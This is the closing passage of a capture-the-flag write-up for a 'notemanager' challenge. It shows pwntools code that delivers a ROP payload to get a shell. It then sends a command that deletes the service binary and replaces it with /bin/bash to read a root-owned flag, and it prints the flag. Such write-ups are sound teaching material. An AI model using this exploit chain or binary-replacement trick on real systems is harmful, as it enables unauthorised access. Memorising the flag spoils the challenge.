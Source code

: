```python
io.sendlineafter("New Note: ", payload)
```

At this point, return from `showMenu()` will execute the ROP chain and get us a shell

```python
io.interactive()
```

# Get a root shell from user shell and get the flag

There is one problem though:

```
$ id -a
uid=1000(user) gid=1000(user) groups=1000(user),0(root)
$ ls -la
drwxr-xr-x. 1 user user  4096 Sep  6 22:40 .
drwxr-xr-x. 1 root root  4096 Sep  4 17:23 ..
-rw-------. 1 root root    58 Sep  1 17:27 flag
-rwxr-xr-x. 1 root root 18480 Aug  7 20:22 notemanager
```

We can't get the flag, because `notemanager` is running as `user` (remember the
privilege-dropping and re-execution logic). But we have write permissions to the
directory. The easiest way is to simply overwrite `notemanager` with a copy of
`/bin/bash` and reconnect again - next request will be handled by bash.

Let's do it in style though &#128578; Replace `io.interactive()` with:

```python
io.sendline("rm notemanager ; cp /bin/bash notemanager ; exit")
io.close()
sleep(0.5)
io = IO()
sleep(1)  # Might need a bit more for remote
io.sendline("cat flag")
print(io.recvlineS(), end="")
io.close()
```

---

## `shc2023{d1D_Y0u_F0Rc3_Y0uR_w4Y_1n?_2d294189d49f9aad}`




<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)

